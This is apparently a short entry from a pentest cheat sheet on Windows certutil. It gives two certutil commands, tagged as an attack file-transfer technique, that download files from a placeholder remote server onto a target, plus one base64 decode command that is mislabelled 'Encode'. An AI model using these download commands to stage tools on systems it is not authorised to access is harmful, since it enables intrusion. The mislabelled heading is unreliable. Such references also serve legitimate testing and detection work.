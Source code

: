 # certutil

% windows, certutil

## download with certutil
#platform/windows #target/remote #cat/ATTACK/FILE_TRANSFERT 
```
certutil.exe -urlcache -split -f http://<server>/<source_file> <dest_file>
```

## download with  certutil (2)
#platform/windows #target/remote #cat/ATTACK/FILE_TRANSFERT 
```
certutil.exe -verifyctl -f -split h http://<server>/<source_file> <dest_file>
```

## Encode in base64 with certutil 
#platform/windows #target/local #cat/UTILS
```
certutil -decode enc.txt <file>
```
